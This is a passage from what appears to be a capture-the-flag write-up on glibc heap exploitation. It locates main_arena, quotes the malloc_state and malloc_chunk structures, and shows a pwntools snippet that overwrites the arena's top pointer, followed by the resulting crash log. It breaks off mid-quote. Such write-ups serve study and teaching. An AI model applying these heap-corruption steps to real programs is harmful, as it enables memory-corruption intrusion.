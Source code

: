 ```c
...
0x00007f53d96a8000 0x00007f53d96ab000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f53d96ab000 0x00007f53d96b1000 0x0000000000000000 rw-
...
```
And it is! In IDA Pro, this part of libc was labelled as the uninspiring `dword_1EBB80`, so this was definitely a lucky find.

With a bit of [searching](https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/malloc_state), we can find the structure of the arena:
```c
struct malloc_state {
  __libc_lock_define (, mutex);
  int flags;
  int have_fastchunks;
  mfastbinptr fastbinsY[NFASTBINS]; // starts from 0x10 (?)
  mchunkptr top;    // This is +0x60
  mchunkptr last_remainder;
  mchunkptr bins[NBINS * 2 - 2];
  unsigned int binmap[BINMAPSIZE];
  struct malloc_state *next;
  struct malloc_state *next_free;
  INTERNAL_SIZE_T attached_threads;
  INTERNAL_SIZE_T system_mem;
  INTERNAL_SIZE_T max_system_mem;
}
```
Of particular note are the various `m.*ptr` variables, as well as the `next.*` pointers. Overwriting any of these could change the behaviour of the heap.

I started off by overwriting the `top` pointer, assessing what would happen if I replaced it with a pointer to garbage bytes
```python
#free_hook = 0x00000000001EEB28+context.libc.address
arena = 0x1EBB80 + context.libc.address
r.sendafter('Input your message:', b'a'*500)
r.sendafter('Where to write?:', pack(arena + 0x60))
r.sendafter('Any last message?:', b'\0')

r.interactive()
```
We get an interesting crash:
```python
[DEBUG] Received 0x10 bytes:
    b'Where to write?:'
[DEBUG] Sent 0x8 bytes:
    00000000  e0 cb 02 12  02 7f 00 00                            │····│····│
    00000008
[DEBUG] Received 0x1d bytes:
    b'malloc(): corrupted top size\n'
Traceback (most recent call last):
```
The top chunk, like all malloc'd chunks, follows the following format:
```c
struct malloc_chunk {
  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
  struct malloc_chunk *fd, *bk;         /* double links -- used only if free. */
  struct malloc_chunk *fd_nextsize, *bk_nextsize; /* double links -- used only if free. */
}
```
glibc [detects](https://elixir.bootlin.com/glibc/glibc-2.31.9000/source/malloc/malloc.c#L4106) that the top chunk is a bit too large, and sends the program to abort:
```c
static void *_int_malloc (mstate av, size_t bytes) {
    ...
```